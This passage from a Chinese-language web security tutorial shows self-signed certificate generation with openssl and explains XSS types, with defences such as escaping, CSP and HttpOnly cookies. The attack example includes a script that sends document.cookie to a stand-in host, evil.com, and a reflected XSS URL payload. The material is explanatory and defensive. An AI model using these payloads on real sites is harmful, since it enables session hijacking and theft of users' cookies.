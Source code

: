 ### 2.3 生成自签名证书

```bash
# 生成私钥
$ openssl genrsa -out server.key 2048

# 生成证书签名请求（CSR）
$ openssl req -new -key server.key -out server.csr

# 生成自签名证书
$ openssl x509 -req -days 365 -in server.csr \
  -signkey server.key -out server.crt
```

---

## 3. Web安全

### 3.1 XSS（跨站脚本攻击）

**类型**：
1. **存储型XSS**：恶意脚本存储在服务器
2. **反射型XSS**：恶意脚本在URL中
3. **DOM型XSS**：在客户端执行

**攻击示例**：
```html
<!-- 评论输入 -->
<script>
  document.location='http://evil.com/steal?cookie='+document.cookie
</script>

<!-- URL参数 -->
http://example.com/search?q=<script>alert(document.cookie)</script>
```

**防御**：
```python
# 1. 输出转义
from html import escape
user_input = "<script>alert('XSS')</script>"
safe_output = escape(user_input)
# &lt;script&gt;alert(&#x27;XSS&#x27;)&lt;/script&gt;

# 2. 使用模板引擎自动转义
# Jinja2, React等默认转义

# 3. Content Security Policy (CSP)
response.headers['Content-Security-Policy'] = "default-src 'self'"

# 4. HttpOnly Cookie
response.set_cookie('session', value, httponly=True)
```
